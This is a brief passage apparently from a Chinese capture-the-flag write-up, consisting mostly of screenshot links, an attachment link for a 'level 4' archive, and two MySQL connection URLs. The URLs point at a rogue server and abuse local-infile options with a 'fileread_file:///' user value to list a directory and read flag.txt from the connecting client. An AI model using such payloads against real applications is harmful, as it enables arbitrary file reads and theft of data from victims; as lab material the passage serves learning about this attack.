 [![](assets/1709282823-b7c24cd79dc6fc5cc313e09800bcf8c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162754-6f4846b8-d6dc-1.png)

```bash
mysql://1.1.1.1:3306/test?user=fileread_file:///.&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#

mysql://1.1.1.1:3306/test?user=fileread_file:///flag.txt&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#
```

[![](assets/1709282823-f853703078ab72c8f4f1c4f8bfc998dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162800-72bea9fe-d6dc-1.png)

![](assets/1709282823-c1a690c3008373b105f447e452f0cfec.gif)关卡 4.zip (24.115 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240229162916-a07baeb4-d6dc-1.zip)
